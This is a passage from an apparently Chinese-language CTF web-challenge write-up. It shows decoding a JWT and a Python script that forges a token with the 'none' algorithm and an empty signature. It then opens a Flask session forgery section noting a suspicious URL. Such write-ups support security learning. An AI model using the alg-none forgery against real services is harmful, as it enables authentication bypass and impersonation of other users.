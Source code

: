 ### JWT令牌伪造

拿自己的jwt令牌解析一下

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "user": "admin",
  "admin": false
}
```

使用脚本把加密算法伪造为none

伪造脚本

```python
import base64
import json

def b64url_encode(data: bytes) -> str:
    """Base64 URL-safe 编码，去掉填充 ="""
    return base64.urlsafe_b64encode(data).decode().rstrip("=")

# Header: alg=none
header = {"alg": "none", "typ": "JWT"}
payload = {"user": 'admin', "admin": "false"}  # 你要伪造的用户数据

# 分别编码
header_b64 = b64url_encode(json.dumps(header).encode())
payload_b64 = b64url_encode(json.dumps(payload).encode())

# 拼接 JWT，签名为空
jwt = f"{header_b64}.{payload_b64}."

print("伪造的 JWT:")
print(jwt)
```

### Flask_Session伪造



点击爬取百度，直接加载了一个百度首页，看到url比较可疑

![](/medias/ctfshow-web/26.png)
